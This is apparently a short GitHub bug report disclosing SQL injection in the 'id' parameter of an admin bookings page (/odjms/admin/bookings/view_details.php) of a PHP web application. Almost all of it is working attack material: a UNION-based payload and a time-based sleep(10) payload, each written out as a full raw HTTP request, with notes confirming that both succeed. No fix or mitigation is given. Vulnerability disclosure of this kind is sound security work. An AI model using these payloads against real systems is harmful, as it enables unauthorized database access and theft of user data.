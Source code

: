 BUG_Author:Andy_LB

Vulnerability File: /odjms/admin/bookings/view_details.php

GET parameter 'id' exists SQL injection vulnerability

Payload1:id=-1) union all select null,concat(0x717273,0x5556575859),null,null,null,null,null,null,null,null,null,null,null,null,null-- -

```
GET /odjms/admin/bookings/view_details.php?id=-1)%20union%20all%20select%20null,concat(0x717273,0x5556575859),null,null,null,null,null,null,null,null,null,null,null,null,null--%20- HTTP/1.1
Host: localhost
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=fqf068shk0hd5fdebbm98ft8ul
Connection: close
```

union query success

![image](https://github.com/ShellHunTerAndyLABA/bug_report/blob/main/sql1.png)

Payload2:id=1) and (select 2 from (select(sleep(10)))x) and (3=3

```
GET /odjms/admin/bookings/view_details.php?id=1)%20and%20(select%202%20from%20(select(sleep(10)))x)%20and%20(3=3 HTTP/1.1
Host: localhost
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=fqf068shk0hd5fdebbm98ft8ul
Connection: close
```

The server's response time is 10 seconds

![image](https://github.com/ShellHunTerAndyLABA/bug_report/blob/main/sql2.png)
